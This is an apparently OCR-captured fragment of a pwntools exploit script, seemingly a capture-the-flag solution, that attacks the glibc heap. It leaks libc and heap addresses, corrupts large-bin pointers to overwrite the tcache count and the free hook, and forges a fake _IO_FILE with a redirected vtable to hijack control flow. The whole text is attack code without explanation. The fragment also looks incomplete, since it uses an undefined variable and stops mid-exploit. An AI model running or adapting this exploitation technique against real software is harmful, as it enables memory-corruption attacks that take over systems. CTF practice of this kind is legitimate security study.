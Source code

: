 ```
    main_arena_addr = libc_base + 0x1e3ff0
    global_max_fast = libc_base + 0x1e6e98
    mpcount = libc_base + 0x1e32d0
    free_hook_ptr_addr = libc_base + 0x1e2ed8
    stderr_addr = libc_base + 0x1e47a0
    IO_str_jumps = libc_base + 0x1e5580

    delete(0)
    edit(2, p64(main_arena_addr) * 2 + p64(0) + p64(stderr_addr - 0x20))
    add(0x450, '5')
    show(2)
    heap_base = u64(sh.recvuntil('\n', drop=True)[-6:].ljust(8, '\x00')) - 0x2b0
    log.success("heap_base:\t" + hex(heap_base))

    # recover
    edit(2, p64(heap_base + 0x2b0) + p64(main_arena_addr) + p64(heap_base + 0x2b0) + p64(heap_base + 0x2b0))
    edit(0, p64(main_arena_addr) + p64(heap_base + 0xaf0) * 3)

    add(0x418, '6')
    add(0x428, '7')

    add(0x450, '8')
    add(0x450, '9')
    add(0x450, '10')
    delete(8)
    delete(9)
    delete(10)

    delete(7)
    add(0x450, '11')
    edit(7, p64(main_arena_addr) * 2 + p64(0) + p64(mpcount - 0x20) + 'a' * 0x30 + p64(free_hook_addr))
    delete(6)
    add(0x450, '12')

    # recover
    # edit(7, p64(heap_base + 0x2b0) + p64(main_arena_addr) + p64(heap_base + 0x2b0) + p64(heap_base + 0x2b0))
    # edit(6, p64(main_arena_addr) + p64(heap_base + 0xaf0) * 3)

    new_size = 0x1592
    old_blen = (new_size - 100) // 2
    fake_IO_FILE = 2 * p64(0)
    fake_IO_FILE += p64(1)  # change _IO_write_base = 1
    fake_IO_FILE += p64(0xffffffffffff)  # change _IO_write_ptr = 0xffffffffffff
    fake_IO_FILE += p64(0)
    fake_IO_FILE += p64(heap_base + 0x2080)  # _IO_buf_base
    fake_IO_FILE += p64(heap_base + 0x2080 + old_blen)  # _IO_buf_end
    # old_blen = _IO_buf_end - _IO_buf_base
    # new_size = 2 * old_blen + 100;
    fake_IO_FILE = fake_IO_FILE.ljust(0x78, '\x00')
    fake_IO_FILE += p64(heap_base) # change _lock = writable address
    fake_IO_FILE = fake_IO_FILE.ljust(0xB0, '\x00')
    fake_IO_FILE += p64(0)  # change _mode = 0
    fake_IO_FILE = fake_IO_FILE.ljust(0xC8, '\x00')
    fake_IO_FILE += p64(IO_str_jumps + 0x18 - 0x38)  # change vtable

    edit(6, fake_IO_FILE)

    edit(0, '\x01')

    # heap_base + 0x2080
```
